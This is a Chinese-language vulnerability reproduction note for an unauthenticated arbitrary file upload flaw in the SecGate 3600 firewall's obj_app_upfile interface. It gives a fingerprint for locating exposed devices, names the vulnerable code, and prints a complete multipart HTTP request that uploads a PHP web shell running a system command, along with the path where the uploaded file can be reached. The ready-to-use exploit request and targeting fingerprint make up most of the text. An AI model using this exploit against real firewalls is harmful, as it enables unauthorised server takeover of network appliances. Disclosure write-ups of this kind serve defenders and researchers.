 # 网神 SecGate 3600 防火墙 obj_app_upfile 任意文件上传漏洞

## 漏洞描述

网神 SecGate 3600 防火墙 obj_app_upfile接口存在任意文件上传漏洞，攻击者通过构造特殊请求包即可获取服务器权限

## 漏洞影响

网神 SecGate 3600 防火墙

## 网络测绘

```
fid="1Lh1LHi6yfkhiO83I59AYg=="
```

## 漏洞复现

登录页面

![image-20230828164646671](images/image-20230828164646671.png)

出现漏洞的文件 webui/modules/object/app.mds

![image-20230828164658709](images/image-20230828164658709.png)

代码中没有对文件调用进行鉴权，且文件上传路径为可访问路径，造成任意文件上传

![image-20230828164714010](images/image-20230828164714010.png)

```
POST /?g=obj_app_upfile HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 574
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc
User-Agent: Mozilla/5.0 (compatible; MSIE 6.0; Windows NT 5.0; Trident/4.0)

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="MAX_FILE_SIZE"

10000000
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="upfile"; filename="vulntest.php"
Content-Type: text/plain

<?php system("id");unlink(__FILE__);?>

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="submit_post"

obj_app_upfile
------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="__hash__"

0b9d6b1ab7479ab69d9f71b05e0e9445
------WebKitFormBoundaryJpMyThWnAxbcBBQc--
```

默认上传路径 /secgate/webui/attachements/ ， 访问 attachements/xxx.php 文件

![image-20230828164734911](images/image-20230828164734911.png)